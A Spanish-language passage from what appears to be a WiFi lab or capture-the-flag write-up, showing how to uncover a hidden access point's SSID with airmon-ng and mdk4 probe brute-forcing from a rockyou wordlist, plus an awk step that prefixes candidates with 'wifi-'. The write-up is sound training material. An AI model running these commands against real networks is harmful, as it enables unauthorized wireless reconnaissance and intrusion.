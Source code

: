 ![](/assets/images/wifi-challenge-lab2/web7.png)

Para poder obtener el nombre usando el `rockyou.txt` primero tenemos que parar la antena de red 

```bash
❯ airmon-ng stop wlan0mon
```

Ahora vamos a iniciar la interfaz en el canal **11**

```bash
❯ airmon-ng start wlan0 11
```

Una vez hecho esto ahora si podemos usar `mdk4` para obtener el **SSID**

```bash
❯ mdk4 wlan0mon p -t F0:9F:C2:6A:88:26 -f rockyou-top100000.txt
```

Aunque para ir mas rápido como sabemos que tiene **9** podemos filtrar por **wifi** para obtener el nombre del **AP** mas rápido

```bash
❯ cat rockyou-top-100000.txt | awk '{print "wifi-" $1}' > brute.txt
```

Y así obtenemos el nombre mas rápido 
